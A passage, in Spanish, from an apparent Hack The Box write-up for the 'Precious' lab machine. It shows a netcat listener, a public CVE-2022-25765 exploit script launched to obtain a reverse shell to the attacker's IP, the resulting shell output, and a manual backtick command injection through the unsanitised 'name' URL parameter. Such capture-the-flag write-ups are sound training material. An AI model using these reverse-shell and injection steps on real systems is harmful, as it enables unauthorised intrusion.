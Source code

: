 <figure><img src="../../.gitbook/assets/4963_vmware_Kx1NR46YT5.png" alt=""><figcaption></figcaption></figure>

Para recibir acceso a la máquina, nos pondremos en escucha con `nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos el exploit del repositorio de GitHub indicado. Indicaremos el `target` vulnerable y nuestra dirección y puerto dónde recibiremos la Reverse Shell.

```bash
❯ python3 CVE-2022-25765.py -t http://precious.htb -a 10.10.16.7 -p 443
[*] Input target address is http://precious.htb
[*] Input address for reverse connect is 10.10.16.7
[*] Input port is 443
[!] Run the shell... Press Ctrl+C after successful connection
```

Verificamos que hemos ganado acceso correctamente al equipo.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.189] 57722
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ 
```

Para probar la explotación manualmente y entender el funcionamiento del exploit anterior, realizamos la siguiente prueba.

Desde la URL vulnerable, le inyectamos el comando `id` aprovechándonos de la variable `name` que es la que no sanitiza correctamente lo que introduce el usuario.

```bash
http://10.10.16.7/?name=%20`id`
```

<figure><img src="../../.gitbook/assets/imagen (357).png" alt=""><figcaption></figcaption></figure>
